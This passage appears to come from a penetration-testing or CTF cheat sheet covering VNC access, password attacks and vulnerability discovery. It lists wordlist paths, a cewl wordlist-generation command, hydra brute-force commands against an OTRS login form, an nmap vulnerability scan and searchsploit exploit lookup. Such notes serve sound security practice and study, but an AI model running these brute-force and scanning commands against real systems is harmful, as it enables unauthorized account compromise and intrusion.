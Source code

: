 Connect using vncviewer from Kali
```
vncviewer [-passwd passwd.txt] <IP>::5901
```

## Password Attack 
Sometime we need to do password guessing(We should!). For better success rate we need a good password dictionary. Also we should search for default credential online!

I have collected some Username and password for quick brute force, usually used for CTF. These list could be used to exploit weak password. Uploaded in GitHub:

Common Username Common Password

### Common password 
```
/usr/share/wordlists/rockyou.txt
/usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt
```

### Generate Password using cewl 
```
cewl -m 2 -d 5 -a -w pass1.txt http://$ip_address/dir/index.php
```

### Brute Force using Burp 
If it is an web form we can brute force in intruder and match grep. Some screenshot from burp suit:

To brute force web form with the hydra, we need to grab the post data from the burp suite carefully. Otherwise, we will get false positive and waste lots of time! I tried to brute force otrs and it worked.

### Brute Force using Hydra 
```
hydra -l root@localhost -V -P pass1.txt $target_address.com http-form-post "/index.pl:Action=Login&RequestedURL=&Lang=en&TimeOffset=240&User=^USER^&Password=^PASS^:F=Login failed! Your user name or password was entered incorrectly.:H=Cookie: OTRSBrowserHasCookie=1"
```
```
hydra -l root@localhost -V -P pass1.txt $target_address.com http-form-post "/index.pl:Action=Login&RequestedURL=&Lang=en&TimeOffset=240&User=^USER^&Password=^PASS^:F=Login failed!"
```

## Vulnerability and Exploitation 
We have enumerated our target. Now Find vulnerabilities!

### Find Vulnerability using Nmap 
```
nmap -Pn -p 80,139,445,21 --script vuln $target
```

### Using Searchsploit 
```
#update database
searchsploit -u
#Searching variation
searchsploit afd windows local
searchsploit kernel 2.6
searchsploit oracle windows

#this will copy the exploit to current directory
searchsploit -m exploit_id 
```
